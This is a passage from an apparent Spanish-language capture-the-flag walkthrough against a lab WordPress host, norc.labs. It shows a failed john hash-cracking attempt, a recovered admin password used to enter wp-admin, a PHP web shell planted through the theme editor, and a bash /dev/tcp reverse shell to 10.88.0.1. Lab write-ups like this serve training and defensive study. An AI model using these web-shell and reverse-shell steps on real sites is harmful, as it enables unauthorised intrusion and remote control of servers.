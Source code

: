 Intentamos crackear el `hash` que hemos obtenido con `john`, pero no tendremos éxito

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
~~~

![Pasted image 20241030132503](https://github.com/user-attachments/assets/36c0320c-0ac5-45fc-a48c-f4708066f22e)

Volvamos a ver los datos que recolectamos, si exploramos el nuevo dominio en el navegador, nos redirige a lo siguiente

![Pasted image 20241030131326](https://github.com/user-attachments/assets/ee0a00d5-ae42-48e0-be28-b5e0d6577eb8)

Bueno... Podemos usar esta nueva contraseña para intentar entrar directamente en `wp-admin`

~~~ txt
admin:wWZvgxRz3jMBQ ZN
~~~

![Pasted image 20241030131547](https://github.com/user-attachments/assets/821abc1e-cd7a-45de-86b3-a9dec4eb8b9f)

![Pasted image 20241030131600](https://github.com/user-attachments/assets/45a8513f-2cfe-4151-abe3-88509b6d27f0)

¡Estamos dentro de `wordpress`!, el siguiente paso sería buscar una forma de ganar acceso al sistema operativo

## Remote Code Execution

Podemos abusar del editor de temas de `wordpress` para editar archivos php de algún tema para ejecutar un comando, en mi caso, seleccionaré el tema Twenty Twenty Three.

~~~ php
system($_GET['cmd']);
~~~

He seleccionado el archivo `hidden-404.php`

![Pasted image 20241031001142](https://github.com/user-attachments/assets/561466d6-cbb5-4903-b303-de3a992d8a47)

Entonces ahora debemos hacer una solicitud a este archivo especificando el parámetro `cmd` en la URL

~~~ bash
http://norc.labs/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=whoami
~~~

![Pasted image 20241031004055](https://github.com/user-attachments/assets/b6abe45b-d836-4d4b-bd1e-237cdea4dc11)

## Reverse Shell

Enviaríamos este comando a través del parámetro `cmd`, en este caso, podemos enviar directamente el siguiente comando con algunos caracteres codificados

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~
